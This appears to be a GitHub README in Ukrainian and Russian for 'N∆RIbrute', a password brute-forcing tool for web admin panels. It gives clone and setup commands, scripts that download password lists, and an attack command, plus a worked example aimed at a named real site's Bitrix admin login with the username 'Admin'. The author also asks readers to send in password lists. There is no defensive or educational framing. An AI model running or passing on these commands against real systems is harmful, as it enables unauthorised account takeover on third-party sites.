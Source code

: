 <h1 align="center">Подпишись на мій телеграмм <a href="https://t.me/samurai_figure" target="_blank">N∆RI</a> 
<img src="https://github.com/blackcater/blackcater/raw/main/images/Hi.gif" height="32"/></h1>
<h3 align="center">N∆RIbrute</h3>
<h3 align="center">Установка:</h3><br>
Клонуем git <br>
 
```shell
git clone https://github.com/Samuraianonweb/NARIbrute
```
<br>
 
```shell
cd NARIbrute
```
<br>

Установка бази паролів (рандом по 500 паролів) <br>
```
python2 baza_pass.py
```
Якщо потрібно скачати базу за номером. Всі бази:https://github.com/Samuraianonweb/password<br>
Id бази це перші цифри (id)_500.txt<br>
Постійно буду обновлювати якщо хочеш допомогти кидай бази паролів у мій телеграм @samurai_gh<br>

```shell
python2 id_baza.py
```
<h3 align="center">Команда атаки:</h3>
 
```shell
python2 brute -url -login pass.txt 
```
-url = Посилання на панель<br>
-login = Логін (якщо відомо , якщо ні вставляємо Admin/admin)<br>
Приклади готової команди <br>
```shell
python2 brute https://id.sechenov.ru/bitrix/admin Admin pass.txt
```
